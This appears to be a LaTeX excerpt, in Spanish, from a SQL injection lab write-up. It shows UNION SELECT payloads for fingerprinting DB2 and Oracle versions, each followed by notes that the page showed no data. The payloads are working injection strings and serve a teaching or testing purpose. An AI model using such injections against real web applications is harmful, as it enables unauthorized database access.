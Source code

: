 \documentclass[a4paper,oneside]{article}
\begin{document}
\textbf{DB2}\\
\begin{lstlisting}[language=SQL]
UNION SELECT null, GETVARIABLE('SYSIBM.VERSION') FROM SYSIBM.SYSDUMMY1
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.4]{images/version_db2.png}\\
  \caption{Inyección para obtener versión en DB2}
  \label{fig:version_db2}
\end{figure}
El segundo desplegable no muestra datos, por lo que debe tratarse de otro SGBD.\\

\textbf{Oracle}\\
\begin{lstlisting}[language=SQL]
UNION SELECT null, banner FROM v$version;
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.5]{images/version_oracle.png}\\
  \caption{Inyección para obtener versión en Oracle}
  \label{fig:version_oracle}
\end{figure}
El segundo desplegable no muestra datos, por lo que debe tratarse de otro SGBD.\\
\end{document}
